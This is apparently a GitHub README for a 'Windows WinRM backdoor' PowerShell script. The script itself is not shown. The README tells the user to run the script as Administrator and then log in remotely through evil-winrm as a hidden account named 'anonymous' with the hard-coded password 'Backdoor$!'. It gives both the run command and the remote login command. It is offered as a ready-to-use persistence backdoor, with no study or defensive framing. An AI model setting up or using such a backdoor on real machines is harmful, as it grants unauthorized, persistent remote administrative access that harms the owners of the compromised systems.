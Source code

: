 <h1>WINDOWS WINRM BACKDOOR</h1>

<ul>
  <li>This script runs backdoor with winrm. To use this script you need admin privilages. So run powershell as Administrator. After that you can login to your backdored system with this creds `anonymous:Backdoor$!`</li>
</ul>

<h1>USAGE:</h1>
<br>
```
powershell

.\backdoor```
<br>
<h1>LOGIN</h1>
```
evil-winrm -i IP -u anonymous -p 'Backdoor$!'
```
